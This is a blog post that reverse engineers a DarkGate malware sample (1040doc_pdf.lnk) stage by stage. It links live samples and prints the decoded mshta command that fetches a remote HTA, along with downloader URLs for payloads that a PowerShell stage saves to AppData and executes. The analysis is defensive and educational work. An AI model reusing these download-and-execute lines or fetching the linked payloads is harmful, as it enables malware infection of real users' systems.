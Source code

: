 ```yaml
---
title: Unmasking DarkGate: 8 Deobfuscation Layers of 1040doc_pdf.lnk
description: Reverse Engineering DarkGate sample (1040doc_pdf.lnk) and uncovering more than 8 deobfuscation layers and evasion techniques behind them.
tags: [DarkGate, malware-analysis, reverse-engineering, deobfuscation, lnk-malware]
category: Malware Analysis
date: 2025-08-10
---
```


Malware analysis is a critical skill and involves examining the malicious software to understand its behavior, capabilities and potential impact. Using this analysis, we can strengthen the defenses we have. This blog shows how a malware evades the defensive mechanisms by multiple layers of obfuscation. 

You can follow this blog step by step to dissect this malware and understand its mechanism.

Get your sample from Malware Bazaar: [1040doc_pdf.lnk](https://bazaar.abuse.ch/sample/ca388a52c69865829152ec89665ebdaa1b2a77dea74973352287c3a37fa1e206/)

### Step-1: Detonate and Capture behavior in a controlled sandbox

Run the `1040doc_pdf.lnk` in a sandbox environment like FlareVM or any fully isolated VM with tools like **Procmon, Wireshark** and **Process Hacker** running. Also **regshot** for before and after system changes.

Goal right now : 

- To understand what it drops or extracts.
- Capture network traffic to see which IPs are connected and where it tries to connect.

If you have learnt **SOC Analysis** then utilizing the logs can be beneficial for understanding what the malware does.

StartGreenBox

Note: Regardless of the encryption methods utilized or how deeply it is obfuscated, at the time of running it has to decrypt itself in order to run.

EndGreenBox

![image.png](DarkGate%20250d0bcb44a8803ba486e1d19bd80361/image.png)

StartRedBox

Warning: Make sure you run malware samples in an isolated VM and take snapshots to escape the trouble of installing it again.

EndRedBox

To keep it isolated from the internet I used FakeNet by mandiant.

**Key findings:** 

- mshta.exe http://168[.]100[.]8[.]242/dc001/1040_document_pdf
- Many more findings, but lets go through them one by one in static analysis

*Now its time to do some static analysis and deobfuscation.*

### Step-2: Static Analysis and Info Gathering

Using the tool, LECmd.exe from the [Eric Zimmermen’s](https://ericzimmerman.github.io/#!index.md) tools we first try to gather the information on this `.lnk` file.

![image.png](DarkGate%20250d0bcb44a8803ba486e1d19bd80361/image%201.png)

What’s happening : - 

- The `.lnk` file calls the `SyncAppvPublishingServer.vbs (LOLBAS)`  with arguments.
- Here, it maps each numbers and subtracts it by 557 and convert to character and make a string.
- Finally the string is piped to powershell.exe

So lets decode that. The simplest option is to use python to make that string and print it.

```python
nums = [666,672,661,673,654,589,661,673,673,669,615,604,604,606,611,613,603,606,605,605,603,613,603,607,609,607,604,657,656,605,605,606,604,606,605,609,605,652,657,668,656,674,666,658,667,673,652,669,657,659]
decoded = "".join(chr(n - 557) for n in nums)
print(decoded)
```

On running the script we got : - 

```python
mshta http://168[.]100[.]8[.]242/dc001/1040_document_pdf
```

### Step-3:

I downloaded the 2nd file from [ANY.RUN](https://app.any.run/tasks/ddadd333-2ec9-45bd-8b01-4a0717a61f74). Either download from there or use your OSINT skills to find the next one. Yes, Malware Bazaar also have the other files.

We are now at the stage2 which is 1040_document_pdf file. I just renamed it to **stage2** for convenience.

After some trial and error I found out the following.

![image.png](DarkGate%20250d0bcb44a8803ba486e1d19bd80361/image%202.png)

So there are files embedded in it. Lets try to string things out. I found this, it looks like .HTA file from the opening tag. And then there was this `<script>`  tag. So I copied the entire script tags and pasted it in the browser.

In this `javascript` code there were many variables like **fc, F0** but after seeing closely you will find the one interesting `dNT` . Print that variable using browser’s console and copy the output.

![image.png](DarkGate%20250d0bcb44a8803ba486e1d19bd80361/image%203.png)

Then print the `dNT` variable. It contains another javascript code. So lets say another obfuscation.

![image.png](DarkGate%20250d0bcb44a8803ba486e1d19bd80361/image%204.png)

This code had another code in `xhY` variable and the name for the file in the `SxS`variable. Then is was going to save and run it. I remove the running part and just got the output of those two variables.

Key findings:

- Another Obfuscated Powershell code which ran on the system
- Filename as WScript.Shell

### Step-4:

In the stage4, we have the powershell code which is AES encrypted. I tweaked the code to print the output instead of directly running the encrypted code. So that way we get the decrypted powershell code.

![image.png](DarkGate%20250d0bcb44a8803ba486e1d19bd80361/image%205.png)

After printing the output we get another powershell code as follows : - 

![image.png](DarkGate%20250d0bcb44a8803ba486e1d19bd80361/image%206.png)

So I will save the above output as Stage5

StartBlueBox

Pro Tip: Using Dynamic Analysis saves time, but if you want to understand the process of the obfuscation use tools like CyberChef.

EndBlueBox

### Step-5:

Here I read the code, made it look readable from oneline. Then tried to understand the logic which was pretty simple.

![image.png](DarkGate%20250d0bcb44a8803ba486e1d19bd80361/image%207.png)

The code is basically downloading and storing files : - 

```python
http://168[.]100[.]8[.]242/dc001/1040documentpdf.vbs
http://168[.]100[.]8[.]242/dc001/AdityaAReturn2020.pdf
```

Then it saves it in the `C:\Users\{Username}\AppData\Roaming\` then executes it.

So basically its a downloader.

Now we need the `1040documentpdf.vbs`  file for the 6th Stage.

You can download from here: [Link](https://bazaar.abuse.ch/sample/4d86f191c4d7a5684116b671618669ec2bdd6bc08337fa2573c773386a14b2df/)

### Step-6:

After downloading the `.vbs` script open it. Get rid of the non-sense constants and focus of what the script is doing.

![image.png](DarkGate%20250d0bcb44a8803ba486e1d19bd80361/image%208.png)

The above code shows that its downloading yet another file which is named as **ivpzhehw** from the ip different than before.

At this stage, I tried to find out the next files online. However, I couldn’t find any of those anywhere. I don’t have the VirusTotal Enterprise so the download option was a no go. I could have easily dissected the next layers as well but as we lack the resource, so its a no go for us.

StartPurpleBox

Analysis will not always give you the results you want, the key takeaways are understanding the process of it. In this Blog, you have seen multiple obfuscations for the malware and how they have escaped the Defender. Analyzing them give you the power to write the YARA rules

EndPurpleBox

## Conclusion

DarkGate is a very slippery malware, with multiple layers of obfuscation and very high stealth. I came across a post of X by `@polygonben` and he has done the same things I have done. But an year ago and he got those files from some sources I suppose. You can check the post from [here](https://x.com/polygonben/status/1768867698845307223). There he mentioned the 8+ stages of obfuscation. However, he hasn’t completed the analysis of it as well.

I spent around 8 hours in the malware analysis and out of which 5 of them were finding the samples. As a **Reverse Engineer** I find it very easy for me to dissect these malwares. Combining my reversing skills with Threat Intelligence gave me a huge boost in this field.

If you want to learn more, connect with me on Linkedin. Simply search for [Geetansh Aditya](https://linkedin.com/in/geetansh-aditya). You can contact me through the website for any project or collaboration.

Also, a little about me, I have excellent Reverse Engineering skills but I am not limited to that, I have done Penetration Testing for companies to DFIR and everything. So feel free to reach out for any topic other than **GRC**.

**Happy Reversing and Happy Hacking!!!**

StartBlueBox

Malware Analysis in itself isn’t tough. You need to have a knack for keep going. The better you are able to understand the nature of the threat actors the more easily you can dissect their malware.

EndBlueBox
